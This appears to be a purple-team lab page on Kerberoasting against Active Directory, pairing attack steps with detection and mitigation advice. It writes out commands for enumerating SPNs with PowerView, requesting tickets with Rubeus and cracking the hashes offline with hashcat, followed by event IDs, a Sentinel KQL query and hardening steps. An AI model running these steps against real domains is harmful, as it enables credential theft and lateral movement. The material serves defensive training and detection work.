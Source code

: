 # Attack Scenario: Kerberoasting

This scenario demonstrates how attackers extract and crack Kerberos service tickets (TGS) for service accounts with weak passwords, allowing lateral movement or privilege escalation in an on-prem Active Directory environment.

**MITRE Techniques:**
- Credential Access (T1558.003)

## Lab Environment

- Active Directory Domain Controller (`DC01`)
- Windows 11 workstation joined to domain
- Service account: `svc-webapp`
  - SPN: `HTTP/webapp01.internal.lab`
  - Member of Domain Users
  - Password: weak / old

## Objectives

- Enumerate user accounts with SPNs
- Request TGS tickets
- Extract and crack TGS hashes offline
- Reuse credentials for SMB or RDP access

## Execution

### 1. Enumerate SPNs with PowerView

```Get-DomainUser -SPN | Select SamAccountName, ServicePrincipalName```

### 2. Request service tickets

```Rubeus.exe kerberoast```

### 3. Extract and crack hashes offline

```hashcat -m 13100 kerberoast.hashes rockyou.txt```

## Detection Guidance

### 🔹 Defender for Identity
- Alert: "Kerberoasting attempt detected"

### 🔹 Event Logs
- Event ID 4769 (TGS Request)
- Unusual volume of TGS requests for different SPNs

### 🔹 KQL Example – Sentinel

```
SecurityEvent
| where EventID == 4769
| where ServiceName endswith '$' == false
| summarize Count = count() by Account, ClientAddress, bin(TimeGenerated, 15m)
| where Count > 5
```


## Mitigations

- Use long, complex service account passwords
- Rotate passwords regularly
- Replace static accounts with gMSAs
- Monitor for abnormal TGS requests

## Resources

- https://attack.mitre.org/techniques/T1558/003/
- https://github.com/GhostPack/Rubeus
- https://adsecurity.org/?p=2293


[← Back to Lab Index](../../README.md)
[→ Related: ]()